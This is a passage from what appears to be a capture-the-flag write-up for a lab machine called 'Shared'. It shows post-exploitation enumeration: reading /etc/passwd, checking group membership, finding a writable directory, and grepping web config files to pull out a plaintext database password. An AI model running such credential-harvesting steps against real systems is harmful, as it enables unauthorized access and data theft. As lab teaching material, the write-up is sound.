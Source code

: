 ![cracked](images/cracked.png)

It worked!.
## User: james_mason

We can now ssh into the box as the user james_mason.
```bash
james_mason@shared:~$ whoami
james_mason
```
### Enumeration

First let's check other users of the machine.
```bash
james_mason@shared:~$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
james_mason:x:1000:1000:james_mason,,,:/home/james_mason:/bin/bash
dan_smith:x:1001:1002::/home/dan_smith:/bin/bash
```
Interestingly when checking which groups our user has membership of we can see that james_mason is a member of a suspicious non default group.
```bash
james_mason@shared:~$ id
uid=1000(james_mason) gid=1000(james_mason) groups=1000(james_mason),1001(developer)
```

### Developer Group

A good point to start is searching for all the files that our suspicious group has access to.
```bash
james_mason@shared:~$ find / -group developer -ls 2>/dev/null
    46286      4 drwxrwx---   2 root     developer     4096 Nov 14 12:20 /opt/scripts_review
```
Interestingly we have full access to the /opt/scripts_review directory.

We can also enumerate /var/www/ for credentials as there is a database present there must be some configuration files.

```bash
james_mason@shared:/var/www/shared.htb/ps/app/config$ grep -R -i password
doctrine.yml:        password: "%database_password%"
config.yml:    password:  "%mailer_password%"
parameters.yml.dist:    database_password: ~
parameters.yml.dist:    mailer_password:   ~
parameters.php:    'database_password' => 'T*k#cbND_C*WrQ9h',
parameters.php:    'mailer_password' => NULL,
```
```bash
james_mason@shared:/var/www/shared.htb/ps/app/config$ cat parameters.php
...(SNIP)...
    'database_user' => 'pshop',
    'database_password' => 'T*k#cbND_C*WrQ9h',
```
```bash
```